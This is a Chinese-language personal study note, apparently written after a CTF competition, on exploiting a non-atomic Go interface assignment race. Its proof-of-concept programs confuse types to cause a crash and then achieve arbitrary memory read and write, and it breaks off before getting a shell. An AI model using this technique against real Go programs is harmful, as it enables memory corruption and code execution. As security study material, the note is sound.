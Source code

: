 # 2020_10_26

前两天都在打ByteCTF，这两天都在等WP(x，先看一下golang这个竞争

## golang data race
link：http://wiki.m4p1e.com/article/getById/90

问题出在`golang`的`interface`上，`interface`用于实现`golang`的多态。举个栗子：

```go
func main() {
    f = &ferari{oilLevel: 100}
    r = &ricksha{oilLevel: math.MaxUint32}
    confused = f
    go func() {
        var i int
        for {
            confused = f
            confused = r
            i++
            if i > 1000000 {
                break
            }
        }
    }()
    for {
        confused.OilLevel()
    }
}
```

对`confused`赋值的操作不是原子操作，所以可能会出现竞争。导致数据与方法不符的情况。这会导致这样一个严重的后果：

在`golang`中，我们无法进行任意地址的读写(如果没有unsafe)，但是考虑下面这种情况：
```go
type itf interface {
    X() bool
}

type safe struct {
    f *int
}

func (s *safe) X() bool {
    return false
}

type unsafe struct {
    f func() bool
}

func (u *unsafe) X() bool {
    if u.f != nil {
        u.f()
    }

    return false
}

var good itf
var bad itf
var confused itf

func main() {
    pp := 0x1337
    good = &safe{f: &pp}
    bad = &unsafe{}
    confused = good

    go func() {
        var i int
        for {
            confused = bad
            confused = good
            i++

            if i > 100000 {
                break
            }
        }
    }()

    for {
        confused.X()
    }
}
```

这样一个程序，会导致crash
```shell
$ ./test3          
unexpected fault address 0x1337
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x1 addr=0x1337 pc=0x1337]
```

那现在我们需要一个任意地址读，那么可以对程序进行如下修改
```go
package main

type itf interface {
    X(addr *uint64) bool
}

type safe struct {
    f *uint64
}

func (s *safe) X(addr *uint64) bool {
    return false
}

type unsafe struct {
    f func(addr *uint64) bool
}

func (u *unsafe) X(addr *uint64) bool {
    if u.f != nil {
        u.f(addr)
    }
    return false
}

func print(addr *uint64) bool{
	println(*addr)
	return true
}

var good itf
var bad itf
var confused itf
var print_addr uint64 = 0x452610
var num uint64 = 0xdeadbeef

func main() {
	println(print)
    pp := print_addr
    good = &safe{f: &pp}
    bad = &unsafe{}
    confused = good

    go func() {
        var i int
        for {
            confused = bad
            confused = good
            i++

            if i > 100000 {
                break
            }
        }
    }()

    for {
        confused.X(&num)
    }
}
```

代码中的地址均为硬编码的地址...一时间不知道怎么获取函数地址

任意写的漏洞也比较简单，我们只修改print函数

```
func print(addr *uint64) bool{
	*addr = 12345678
	println(*addr)
	return true
}
```

所以我们现在就有了任意地址读和任意地址写。接下来就是如何获取一个shell

一点了，放明天搞。
